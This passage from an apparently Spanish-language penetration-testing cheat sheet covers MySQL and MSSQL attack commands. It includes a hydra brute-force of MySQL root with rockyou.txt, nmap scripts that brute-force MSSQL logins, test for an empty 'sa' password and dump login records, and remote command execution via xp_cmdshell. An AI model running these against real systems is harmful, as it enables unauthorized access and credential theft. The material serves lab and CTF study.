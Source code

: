 ####  4.3.2. <a name='fuerza-bruta'></a>Fuerza bruta

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://<RHOST> mysql
```

####  4.3.3. <a name='comandos-básicos'></a>Comandos básicos

```mysql
SHOW DATABASES; # listar las bases de datos
USE <DATABASE>; # seleccionar una base de datos
SHOW TABLES; # listar las tablas de una base de datos
DESC <TABLE>; # mostar los campos de una tabla
SHOW CREATE TABLE; # mostrar la estructura de una tabla
SELECT <column_name>,<column_name>,<column_name...> FROM <TABLE>; # listar el contenido de una tabla
SHOW EVENTS; # mostrar los eventos programados
```

###  4.4. <a name='mssql-(1433)'></a>MSSQL (1433)

MSSQL, o Microsoft SQL Server, es un sistema de gestión de bases de datos relacional desarrollado por Microsoft. Es utilizado para almacenar y recuperar datos según las necesidades de diferentes aplicaciones, desde pequeñas a grandes empresas. MSSQL ofrece características avanzadas como soporte para transacciones, integridad referencial, seguridad robusta y herramientas de administración y desarrollo. Es conocido por su integración estrecha con otros productos de Microsoft, como .NET Framework y Azure, y utiliza T-SQL (Transact-SQL) como su lenguaje de consulta.

####  4.4.1. <a name='nmap-4'></a>Nmap

Scripts de `nmap` utiles para este servicio:

- ms-sql-info    
- ms-sql-ntlm-info    
- ms-sql-brute    
- ms-sql-empty-password    
- ms-sql-query    
- ms-sql-dump-hashes    
- ms-sql-xp-cmdshell

```bash
sudo nmap --script ms-sql-info -p 1433 <RHOST>

# Comprobar autenticación NTLM
sudo nmap --script ms-sql-ntlm-info --script-args mssql.instance-port 1433 <RHOST>

# Enumerar usuarios y contraseña validos para MSSQL
sudo nmap -p 1433 --script ms-sql-brute -script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt <RHOST>

# Comprobar si el usuario "sa" tiene configurada la contraseña como vacía
sudo nmap -p 1433 --script ms-sql-empty-password <RHOST>

# Extraer todos los usuarios con sesión con una consulta sql
sudo nmap -p 1433 --script ms-sql-query --script-args mssql.username=<USER>,mssql.password=<PASSWORD>,ms-sql-query="SELECT * FROM master..syslogins" <RHOST> -oN output.txt

# Ejecutar un comando en la máquina victima usando xp_cmdshell
sudo nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PASSWORD>,ms-sql-xp-cmdshell.cmd="type C:\flag.txt" <RHOST>
```
